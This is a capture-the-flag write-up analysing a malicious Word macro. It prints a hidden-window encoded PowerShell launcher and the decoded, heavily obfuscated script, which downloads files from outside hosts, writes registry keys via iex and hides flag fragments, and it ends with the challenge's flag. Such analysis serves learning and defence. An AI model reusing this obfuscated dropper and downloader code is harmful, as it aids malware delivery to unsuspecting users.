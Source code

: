 # **S1mple Obfusc4tion**

```
The flag has 2 parts. Part 2 has been encode and saved somewhere. Can you find it?

Download file: https://drive.google.com/file/d/1ZmWZiTTqL62wjZvhgcZabrt59W-Mq7uQ/view?usp=sharing
Password: wargame
```

Extract the given compressed file with the given password, we will have a .doc file. I must turn off my anti virus program because it kept deleting my file LMAO. 

Open it up and we see a macro. I had done a lot of research about macro in .doc file then I found [this](https://www.decalage.info/vba_tools).

![Screenshot 2022-09-06 204603](https://user-images.githubusercontent.com/89141562/188659787-5c357edf-855a-4b63-a3bb-56165818a946.png)

So we will use a tool call `olevba`. We have something like this.

![Screenshot 2022-09-06 211824](https://user-images.githubusercontent.com/89141562/188659291-a3647f33-102b-437b-b0eb-504bc7f2f318.png)

I found a malicious content in the macro:

```
uxZIlRCaHe = "Powershell.exe -WindowStyle Hidden -nop -ENCOD JABFAGcAUgBJADkAYgBqAGg...cgBdADMANgApACAAfAAgAGkAZQB4AH0AOwANAAoA"
```
There's a lot of it so that I can't show you guys all sorry :'(

Look likes it was powershell commands but was encoded with base64, so I put it to `cyberchef` to decode it and here is what I found. Very interesting:

![Screenshot 2022-09-06 211846](https://user-images.githubusercontent.com/89141562/188659390-27fac218-3d8a-4fed-953b-63a53c04bf40.png)

```powershell
$EgRI9bjh5S = ('New-Tem' + 'p' + 'orar' + 'yFile')|& ( $pshOme[4] + $psHOmE[34] + 'X');
$GLHNe0URoh = (100, 71, 104, 108, 73, 72, 82, 104, 97);
$GF8UYpawBX = ((("{4}{3}{2}{6}{5}{1}{0}"  -f 'llName', 'h5S.Fu', 'R', 'g', 'tP7E', 'j', 'I9b'))   -rePLACe 'tP7', [CHaR]36)|& ((get-VArIABLe '*mDr*').NaME[3, 11, 2] -jOIN'');
$GLHNe0URoh += (87, 119, 103, 98, 50, 89, 103, 100, 71, 104, 108, 73, 71, 90, 115, 89, 87);
$GLHNe0URoh += (99, 103, 79, 105, 74, 102, 97, 72, 86, 122, 100, 71, 119, 122, 88, 51, 73, 122, 89, 87, 120, 102, 97, 71, 70);
$Eg4w85M9Qi = (('trS' + 'Wxrked ' + 'sx hca' + 'd' + 'rd' + ', fx' + 'r' + 'gxt' + ' hx' + 'w tx v' + 'cadcca' + 'dtix' + 'n!' + '!' + '!!tr' + 'S.Re' + 'P' + 'lAc' + 'E(trSxtr' + 'S,' + 'trS0trS).' + 'R' + 'e' + 'PlAcE(t' + 'r' + 'S' + 'ca' + 'dt' + 'rS,tr' + 'Sat' + 'rS' + ')')   -repLaCE 'trS', [CHAr]39) | . ((varIaBle '*mdr*').namE[3, 11, 2] -jOin'');
$GLHNe0URoh += (121, 90, 72, 48, 105);
$sEpb5puTtV = (('{4}{0}{3}{5}{1}{7}{2}{6}' -f 'nVerT]:', 'HNe', 'h', ':toBaSE6', '[System.Co', '4STRINg(jD8GL', ')', '0URo')).rePLACe(([chAR]106 + [chAR]68 + [chAR]56), [strIng][chAR]36) |& ((VArIaBLe '*MDR*').nAME[3, 11, 2] -jOin'');
echo $sEpb5puTtV | .('{2}{1}{0}'  -f 'ile', 'ut-f', 'o') ${GF8UYpawBX};
$azfcfToiBq = ("{1}{4}{8}{7}{2}{5}{6}{9}{3}{0}"  -f 'ion', 'Welc', '_Warga', 'cat', 'om', 'me!', 'S1mple', 'o', 'e_t', '_Obfu');
$cOP2lgqRhb = 'Xgf{jgn{tgz|{c<Pg;}k';
$cOP2lgqRhb.("{1}{2}{0}"  -f 'ay', 'tocha', 'rarr').invoke() | .("{2}{1}{0}{3}"  -f'-', 'ach', 'fore', 'object')   -Process { $rEianMEKgy += [char]([byte][char]$_  -bxor 0xf) };
$C4Lg8xccWH = 'https:][(s)]w][(s)]wwhitehat.com][(s)]ww1zw][(s)]w$https:][(s)]w][(s)]wwargame.com][(s)]wthuchanh'.repLAcE((']' + '[' + ('(s)]' + 'w')), ([array]('/'), ('xw' + 'e'))[0]).sPlIT('$');
$mAMq5ixXLi = 0;
try {
    foreach($JJU1E8IktL  in $C4Lg8xccWH) {
        (New - Object System.Net.WebClient).DownloadFile($JJU1E8IktL, 'C:\Users\Whitehat')
    }

} catch [System.Net.WebException], [System.IO.IOException] {
    ("{9}{3}{7}{0}{10}{8}{2}{5}{11}{6}{4}{1}"  -f 'on', 'ist!!!', ' or Fil', 'nne', 'ex', 'e does ', 't ', 'cti', 'ailed!!!', 'Co', ' F', 'no');
    $mAMq5ixXLi = 1
};
(('New' + '-Item -Path ' + '{0' + '}HK' + 'C' + 'U:{0}' + ' ' + '-' + 'Name ' + '{0}whit' + 'eha' + 't{0}') -F  [char]34)| iex;
if ($mAMq5ixXLi   -gt 0)  {
    (('New' + '-' + 'I' + 'temProperty' + ' -Pat' + 'h I9' + 'KHKCU:1' + 'Lewhitehat' + 'I9' + 'K -Nam' + 'e I9' + 'Kwarga' + 'meI9K -Va' + 'lue Nzvazf' + 'c' + 'fToiBq' + ' -PropertyType I9KStri' + 'ngI9K').RePlACe('I9K', [sTrIng][Char]34).RePlACe(([Char]49 + [Char]76 + [Char]101), [sTrIng][Char]92).RePlACe(([Char]78 + [Char]122 + [Char]118), '$'))| iex
} else {
    PS C:\Users\my_ant_ti3m > ((("{4}{9}{0}{13}{7}{3}{1}{10}{8}{6}{16}{12}{11}{2}{15}{5}{14}"  - f'roperty -P', 'CU:rBQwh', 'o', 'lX1HK', 'New-It', 'e lX1', 'lX1wargamelX1 ', 'h ', ' ', 'emP', 'itehatlX1 -Name', '-Pr', ' ', 'at', 'StringlX1', 'pertyTyp', '-Value 8qarEianMEKgy '))   - rEpLACe ([ChAr]108 + [ChAr]88 + [ChAr]49), [ChAr]34  - rEpLACe([ChAr]114 + [ChAr]66 + [ChAr]81), [ChAr]92   - crepLacE([ChAr]56 + [ChAr]113 + [ChAr]97), [ChAr]36) | iex
};
```
I used Base64 decode, text decode with UTF-16LE and code tidy. So I noticed that `$GLHNe0URoh` was a variable which was added some ASCII to it. Using `dcode`, I had this: `dGhlIHRhaWwgb2YgdGhlIGZsYWcgOiJfaHVzdGwzX3IzYWxfaGFyZH0i`. Then base64 again:

![Screenshot 2022-09-06 211555](https://user-images.githubusercontent.com/89141562/188659529-2151b7d9-e3a2-4dbd-8ccf-03371f2d3068.png)

It was just the end of the flag, I must find the head in those code. I had tried many variables, but `$rEianMEKgy` gave me this

![Screenshot 2022-09-06 211632](https://user-images.githubusercontent.com/89141562/188659556-2921f00e-e362-4bbd-ab66-4bc1f44746ce.png)

## FLAG: Whitehat{hustl3_h4rd_hustl3_r3al_hard}

